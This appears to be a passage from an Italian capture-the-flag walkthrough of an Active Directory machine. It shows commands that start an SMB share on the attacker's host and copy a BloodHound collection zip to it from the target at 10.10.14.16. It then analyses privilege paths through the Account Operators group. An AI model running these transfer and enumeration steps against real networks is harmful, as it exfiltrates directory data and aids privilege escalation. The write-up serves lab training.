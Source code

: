 Dobbiamo passare i file sulla nostra macchina:

**LATO MIO**

`smbserver.py share . -smb2support -username asd -password asd`

**LATO HOST**

`net use \\10.10.14.16\share /u:asd asd`

Ci copiamo il file 

`copy 20220714025759_BloodHound.zip \\10.10.14.16\share\`

Chiudiamo la connessione

`net use /d \\10.10.14.16\share`

Avviamo BloodHound, carichiamo i file "*.json". Quindi marchiamo l'utente *svc-alfresco* come "*Owned Principal*" ed eseguiamo l'analisi denominata "*Shortest Path on the Owned Principal*"

<p align="center">
  <img src="Images/path.png" />
</p>

Il gruppo "*Account Operators*" concede privilegi di creazione account limitati a un utente. I membri di questo gruppo possono creare e modificare la maggior parte dei tipi di account, inclusi quelli di utenti, gruppi locali e gruppi globali, ei membri possono accedere localmente ai controller di dominio.

I membri del gruppo "*Account Operators*" non possono gestire l'account utente amministratore, gli account utente degli amministratori o i gruppi "*Administrators*", "*Server Operators*", "*Account Operators*", "*Backup Operators*" o "*Print Operators*". I membri di questo gruppo non possono modificare i diritti utente.
